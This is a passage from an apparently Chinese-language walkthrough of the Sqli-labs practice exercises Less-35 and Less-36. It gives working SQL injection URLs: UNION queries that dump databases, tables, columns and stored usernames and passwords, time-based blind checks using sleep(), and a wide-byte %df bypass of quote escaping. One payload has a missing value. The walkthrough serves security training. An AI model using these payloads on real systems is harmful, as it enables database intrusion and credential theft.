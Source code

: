 **查看所有字段**<br />http://www.web.com/sql/Less-35/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+<br />![](https://img-blog.csdnimg.cn/20200725122922594.png#crop=0&crop=0&crop=1&crop=1&id=TfvtY&originHeight=165&originWidth=1344&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有账户密码**<br />http://www.web.com/sql/Less-35/?id=-1 union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users--+<br />![](https://img-blog.csdnimg.cn/20200725123048701.png#crop=0&crop=0&crop=1&crop=1&id=vdezS&originHeight=143&originWidth=1340&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

# Sqli-labs-Less-35 方法二
![image.png](./assets/1654701167720-d54839ae-2ae8-4714-8de9-0fc53bdbf089.png)
**判断当前库名称长度**<br />http://www.web.com/sql/Less-35/?id=1 and if(length(database())=,1,sleep(2))--+<br />没有延时并返回正确则说明正确，有延时则说明错误

**判断当前数据库首字母（0x73是s的十六进制）**<br />**http://www.web.com/sql/Less-35/?id=1 and if(substr((select database()),1,1)=0x73,1,sleep(2))--+**<br />没有延时并返回正确则说明正确，有延时则说明错误<br />以下步骤与Sqli-labs-Less-8相同


# Sqli-labs-Less-36
![](https://img-blog.csdnimg.cn/20200725144431414.png#crop=0&crop=0&crop=1&crop=1&id=V24AY&originHeight=78&originWidth=1068&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)**查找注入点**<br />http://www.web.com/sql/Less-36/?id=1'<br />提示显示被转义<br />![](https://img-blog.csdnimg.cn/20200725144734926.png#crop=0&crop=0&crop=1&crop=1&id=RFgf7&originHeight=77&originWidth=494&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**加上%df，报错**<br />http://www.web.com/sql/Less-36/?id=1%df'<br />![](https://img-blog.csdnimg.cn/20200725144819429.png#crop=0&crop=0&crop=1&crop=1&id=IHpa8&originHeight=69&originWidth=1348&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**进行注释，成功**<br />http://www.web.com/sql/Less-36/?id=1%df'--+<br />![](https://img-blog.csdnimg.cn/20200725145052468.png#crop=0&crop=0&crop=1&crop=1&id=VilnY&originHeight=142&originWidth=368&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />http://www.web.com/sql/Less-36/?id=1%df' order by 3--+<br />![](https://img-blog.csdnimg.cn/2020072514514518.png#crop=0&crop=0&crop=1&crop=1&id=DPzvB&originHeight=38&originWidth=467&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当为4时报错，为3时正确，说明有3列

**查看当前库**<br />http://www.web.com/sql/Less-36/?id=1%df' union select 1,2,database()--+<br />![](https://img-blog.csdnimg.cn/20200725145313710.png#crop=0&crop=0&crop=1&crop=1&id=zcmAy&originHeight=123&originWidth=284&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-36/?id=1%df' union select 1,2,group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200725145404683.png#crop=0&crop=0&crop=1&crop=1&id=xmFHU&originHeight=143&originWidth=1224&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-36/?id=1%df' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479--+<br />![](https://img-blog.csdnimg.cn/20200725145516631.png#crop=0&crop=0&crop=1&crop=1&id=rht5f&originHeight=150&originWidth=600&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />http://www.web.com/sql/Less-36/?id=1%df' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+<br />![](https://img-blog.csdnimg.cn/20200725145614513.png#crop=0&crop=0&crop=1&crop=1&id=CkaJ8&originHeight=181&originWidth=1348&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
